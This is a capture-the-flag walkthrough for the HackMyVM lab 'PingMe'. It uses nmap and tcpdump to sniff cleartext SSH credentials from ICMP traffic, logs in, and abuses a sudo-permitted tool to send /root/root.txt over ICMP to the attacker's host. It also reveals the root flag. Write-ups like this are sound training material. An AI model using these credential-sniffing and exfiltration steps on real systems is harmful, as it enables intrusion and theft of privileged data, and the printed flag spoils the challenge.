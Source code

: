 
# **PingMe || HackMyVM**

***
## **Difficulty : Medium**

![](https://i.imgur.com/JUhKVzd.png)

***


Running our nmap scan we have the below output


```bash
# Nmap 7.94SVN scan initiated Thu Oct 17 20:26:24 2024 as: /usr/lib/nmap/nmap --privileged -p- -T4 -v -sCV -oN nmap.txt 192.168.0.151
Nmap scan report for pingme (192.168.0.151)
Host is up (0.00032s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 1f:e7:c0:44:2a:9c:ed:91:ca:dd:46:b7:b3:3f:42:4b (RSA)
|   256 e3:ce:72:cb:50:48:a1:2c:79:94:62:53:8b:61:0d:23 (ECDSA)
|_  256 53:84:2c:86:21:b6:e6:1a:89:97:98:cc:27:00:0c:b0 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Ping test
|_http-server-header: nginx/1.18.0
MAC Address: 08:00:27:E4:61:33 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 17 20:26:49 2024 -- 1 IP address (1 host up) scanned in 24.47 seconds
```


Navigating to port 80/HTTP we have the below page, which automatically pings the IP making the request to this site


![](https://i.imgur.com/oLJItSd.png)


Viewing page-source we have some few commented texts.


![](https://i.imgur.com/dBO2OXy.png)



To me this looks like an hint telling us to listen for ICMP echo requests, It is good practice not just to listen but to use the `-A` option to display all data as described [here](https://stackoverflow.com/questions/38342290/how-to-display-all-data-using-tcpdump)


```bash
❯ sudo tcpdump -i wlan0 icmp -A
[sudo] password for sec-fortress: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on wlan0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

Then navigate to the website and refresh the page in which going back to our command lie you should see clear text credentials


![](https://i.imgur.com/6UX5S3u.jpeg)


We have the following credential ; `pinger:P!ngM3`, we can go ahead and try to use this to login via the SSH protocol, which works!!


```bash
❯ ssh pinger@192.168.0.151
The authenticity of host '192.168.0.151 (192.168.0.151)' can't be established.
ED25519 key fingerprint is SHA256:jIHuqj6aE+2blT+6SnkGKkaR7dRiUscb9FAVVG/h9DU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.151' (ED25519) to the list of known hosts.
pinger@192.168.0.151's password: 
Linux pingme 5.10.0-11-amd64 #1 SMP Debian 5.10.92-1 (2022-01-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Mar  5 19:21:06 2022 from 10.0.0.10
pinger@pingme:~$ whoami
pinger
pinger@pingme:~$ hostnamectl
   Static hostname: pingme
         Icon name: computer-vm
           Chassis: vm
        Machine ID: aabb374821d64f88bd7c0f7a62c74a03
           Boot ID: 4e955ff521ce46d9b87087be2b47370a
    Virtualization: oracle
  Operating System: Debian GNU/Linux 11 (bullseye)
            Kernel: Linux 5.10.0-11-amd64
      Architecture: x86-64
pinger@pingme:~$ 
```



Navigating to the `/var/www/html` directory and examining the `index.php` we can see how our user foothold was possible as described in the image below. 


![](https://i.imgur.com/T0r4WZz.png)



Checking for executables our current user can run with the `sudo` command we have the below output


```bash
pinger@pingme:/var/www/html$ sudo -l
Matching Defaults entries for pinger on pingme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pinger may run the following commands on pingme:
    (root) NOPASSWD: /usr/local/sbin/sendfilebyping
pinger@pingme:/var/www/html$ 
```


It is possible to read the root flag as this program sends data over the ICMP protocol and it is most likely wouldn't be comfortable getting a reverse shell.


- Start up `tcpdump` listening on the ICMP protocol

```bash
❯ sudo tcpdump -i wlan0 icmp -A
```

- Then execute this command to get the root flag


```bash
pinger@pingme:/var/www/html$ sudo /usr/local/sbin/sendfilebyping 192.168.0.158 /root/root.txt
```


![](https://i.imgur.com/9BL8nDS.jpeg)


> **Note :** The root flag is  in sequence so, H - move to the next line, M - move to the next line, V - move to the next line.....Just like this.




<details>
  <summary>Root Flag Spoiler Warning</summary>
  
HMV{ICMPcanBeAbused}
  
</details>




<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

